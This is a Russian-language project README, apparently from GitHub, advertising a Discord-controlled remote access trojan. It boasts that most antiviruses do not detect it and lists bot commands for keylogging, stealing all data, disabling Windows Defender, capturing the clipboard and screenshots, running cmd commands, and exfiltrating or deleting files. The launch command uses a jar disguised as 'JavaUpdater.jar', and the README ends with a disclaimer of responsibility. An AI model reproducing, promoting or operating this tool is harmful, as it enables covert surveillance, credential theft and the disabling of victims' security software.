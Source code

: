 # Удаленный доступ к компьютеру с помощью Discord

- [x] Каждый пользователь с уникальным ID
- [x] Не палится большинством популярных Анти-вирусов
- [x] Простота в выполнении команд
- [ ] Нужна Java

# Список команд
```
!all <command> - выполнить команду для всех пользователей
!all online - просмотреть кто в сети
!ID admin1 <command> - отправить команду с правами админа
!ID admin2 <command> - отправить команду с правами админа 2
!ID antivirus - проверить включён ли windows defender
!ID cb - посмотреть буфер обмена
!ID console - отправить команду из cmd
!ID defender <on/off> - включить/выключить defender
!ID delete <path> - удалить файл/папку
!ID dir <path> - посмотреть директорию папки
!ID upload <path> - скачать файл
!ID keylogger <start/stop> - включить/выключить keylogger
!ID message <message> - отправить оконное сообщение
!ID pack <path> <zip> - упаковать папку в архив
!ID push <message> - отправить push уведомление
!ID reboot - перезапустить компьютер
!ID screenshot - получить скриншот
!ID start <file> - запустить файл/сайт
!ID stealer - застиллить все данные
!ID shutdown - выключить компьютер
!ID tasklist - список текущих процессов
!ID update - обновить до последней версии waves
!ID download <site> <path> - скачать файл по ссылке
!ID version - посмотреть версию waves
```
# Использование
```
javaw.exe -cp JavaUpdater.jar kerrylxrd.Start
```

<h5>Автор ответственности не несёт</h1>
